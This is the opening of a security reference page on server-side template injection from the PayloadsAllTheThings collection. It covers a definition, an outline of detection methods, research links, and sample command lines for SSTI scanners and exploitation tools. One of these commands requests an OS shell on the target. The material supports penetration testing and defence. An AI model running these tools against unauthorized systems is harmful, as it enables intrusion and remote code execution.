

repository: swisskyrepo/PayloadsAllTheThings · page: Server Side Template Injection/index.html · generator: mkdocs

# Server Side Template Injection

> Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
    - [Detection and Exploitation Techniques](#detection-and-exploitation-techniques)
        - [Rendered](#rendered)
        - [Error-Based](#error-based)
        - [Boolean-Based](#boolean-based)
        - [Time-Based](#time-based)
        - [Out of Bounds](#out-of-bounds)
        - [Polyglot-Based](#polyglot-based)
    - [Universal Detection Payloads](#universal-detection-payloads)
    - [Manual Detection and Exploitation](#manual-detection-and-exploitation)
        - [Identify the Vulnerable Input Field](#identify-the-vulnerable-input-field)
        - [Inject Template Syntax](#inject-template-syntax)
        - [Enumerate the Template Engine](#enumerate-the-template-engine)
        - [Escalate to Code Execution](#escalate-to-code-execution)
- [Labs](#labs)
- [References](#references)

## Tools

- [Hackmanit/TInjA](https://github.com/Hackmanit/TInjA) - An efficient SSTI + CSTI scanner which utilizes novel polyglots

  ```bash
  tinja url -u "http://example.com/?name=Kirlia" -H "Authentication: Bearer ey..."
  tinja url -u "http://example.com/" -d "username=Kirlia"  -c "PHPSESSID=ABC123..."
  ```

- [epinna/tplmap](https://github.com/epinna/tplmap) - Server-Side Template Injection and Code Injection Detection and Exploitation Tool

  ```powershell
  python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
  python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
  python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
  ```

- [vladko312/SSTImap](https://github.com/vladko312/SSTImap) - Automatic SSTI detection tool with interactive interface based on [epinna/tplmap](https://github.com/epinna/tplmap)

  ```bash
  python3 ./sstimap.py -u 'https://example.com/page?name=John' -s
  python3 ./sstimap.py -i -u 'https://example.com/page?name=Vulnerable*&message=My_message' -l 5 -e jade
  python3 ./sstimap.py -i -A -m POST -l 5 -H 'Authorization: Basic bG9naW46c2VjcmV0X3Bhc3N3b3Jk'
  ```

## Methodology

### Detection and Exploitation Techniques

Original research:

- Rendered, Time-Based: [Server-Side Template Injection: RCE For The Modern Web App - James Kettle - August 05, 2015](https://portswigger.net/knowledgebase/papers/serversidetemplateinjection.pdf)
- Polyglot-Based: [Improving the Detection and Identification of Template Engines for Large-Scale Template Injection Scanning - Maximilian Hildebrand - September 19, 2023](https://www.hackmanit.de/images/download/thesis/Improving-the-Detection-and-Identification-of-Template-Engines-for-Large-Scale-Template-Injection-Scanning-Maximilian-Hildebrand-Master-Thesis-Hackmanit.pdf)
- Error-Based, Boolean-Based: [Successful Errors: New Code Injection and SSTI Techniques - Vladislav Korchagin - January 03, 2026](https://github.com/vladko312/Research_Successful_Errors/blob/main/README.md)
